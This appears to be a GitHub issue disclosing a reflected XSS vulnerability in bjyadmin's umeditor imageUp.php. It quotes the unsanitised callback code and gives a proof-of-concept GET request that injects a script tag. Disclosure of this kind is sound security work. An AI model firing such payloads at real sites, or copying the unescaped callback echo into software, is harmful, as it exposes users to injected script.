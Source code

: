 A xss vulnerability in bjyadmin-latest(commit a560fd5).

The path of the vulnerability.

In file https://github.com/baijunyao/thinkphp-bjyadmin/blob/master/Public/statics/umeditor1_2_3/php/imageUp.php

```php
...
$callback=$_GET['callback'];		// Line 19
...
if($callback) {
    echo '<script>'.$callback.'('.json_encode($info).')</script>';	//Line 26
}
```


We see that there is no check between the input  $_POST["callback"] and the output(Line 26)

Thus the XSS will happen at `echo '<script>'.$callback.'('.json_encode($info).')</script>';`

Poc:

GET /Public/statics/umeditor1_2_3/php/imageUp.php?callback=%3C/script%3E%3Cscript%3Ealert(1);%3C/script%3E%3C%22

Manual verification:

![alt text](3.png)

![alt text](4.png)

@baijunyao